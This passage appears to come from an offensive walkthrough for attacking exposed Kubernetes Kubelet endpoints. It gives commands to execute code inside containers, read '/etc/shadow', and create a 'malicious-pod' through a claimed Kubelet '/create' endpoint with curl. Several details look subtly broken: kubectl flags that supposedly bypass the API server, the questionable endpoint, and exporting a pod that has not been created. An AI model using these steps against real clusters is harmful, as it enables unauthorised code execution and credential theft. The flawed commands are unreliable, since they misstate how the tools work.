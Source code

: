 **Step 4: Execute Command Inside a Container (Remote Command Execution)**

This step leverages the Kubelet's `/exec` endpoint to execute a command within a specified container.  This requires identifying a specific container ID and the target command.

First, extract the pod name, namespace, and container name from the output of step 3.  Let's assume we have:

*   `pod_name="my-app-pod"`
*   `namespace="default"`
*   `container_name="my-app-container"`

```bash
# Prepare the command execution request. Replace placeholders with actual values.
# Ensure 'kubectl' is installed and configured to communicate with the cluster.
kubectl --insecure-skip-tls-verify exec -n ${namespace} ${pod_name} -c ${container_name} -- sh -c "whoami"  --kubelet-preferred-address-types=InternalIP,ExternalIP,Hostname --address=<target_node_ip> --port=<kubelet_port>
```

*   **Explanation:** This uses `kubectl` to execute a command (`sh -c "whoami"`) inside the specified container.  The crucial part is using the `--kubelet-preferred-address-types` , `--address` and `--port` flags to direct kubectl to communicate directly with the Kubelet, bypassing the Kubernetes API server. `kubectl` typically communicates with the Kubelet via the Kubernetes API server.  However, we are exploiting the direct Kubelet access. `--insecure-skip-tls-verify` is needed due to the potential for untrusted self-signed certificates. The `-n` flag specifies the namespace. The `-c` flag specifies the container name.
*   **Why:** This attempts to execute a simple command to confirm code execution within the container. The `whoami` command reveals the user identity under which the container is running.
*   **Expected Output:**  If successful, the command will output the username associated with the running process, which may be `root` or some other user.  An error indicates either the container ID is invalid, or the `/exec` endpoint is not accessible.
*   **Contributes To:** Gaining control over the container by executing arbitrary commands.
*   **Variations:**  Replace `sh -c "whoami"` with any other command you want to execute. For example, `sh -c "cat /etc/shadow"` to attempt to read the password file (if running as root and accessible).

**Step 5: (If Available, More Recent Kubelets) Container Resource Creation (Advanced Exploitation)**

Some Kubelet versions expose a `/create` endpoint that allows for creating pods and containers.  This requires more detailed configuration, but allows creation of fully malicious containers.  The exact configuration depends highly on the Kubelet and Kubernetes versions.  Example (Highly dependent on Kubelet version and configuration):

```bash
# Example - adjust based on environment!  This is a template, NOT a direct copy/paste.
# Replace placeholders with actual values.  This requires creating a Pod manifest (pod.yaml).
# Example pod.yaml:
# apiVersion: v1
# kind: Pod
# metadata:
#   name: malicious-pod
# spec:
#   containers:
#   - name: malicious-container
#     image: alpine/git
#     command: ["/bin/sh", "-c", "while true; do echo 'Compromised!'; sleep 1; done"]

#  Note that the command is dangerous! Only use this in a test/isolated environment.

# Convert the Pod manifest to JSON
kubectl get pod malicious-pod -n default -o json > pod.json

# Create the container using the Kubelet API.  Requires very specific configuration based on Kubelet version.
curl -k -X POST -H "Content-Type: application/json" --data @pod.json https://<target_node_ip>:<kubelet_port>/create
```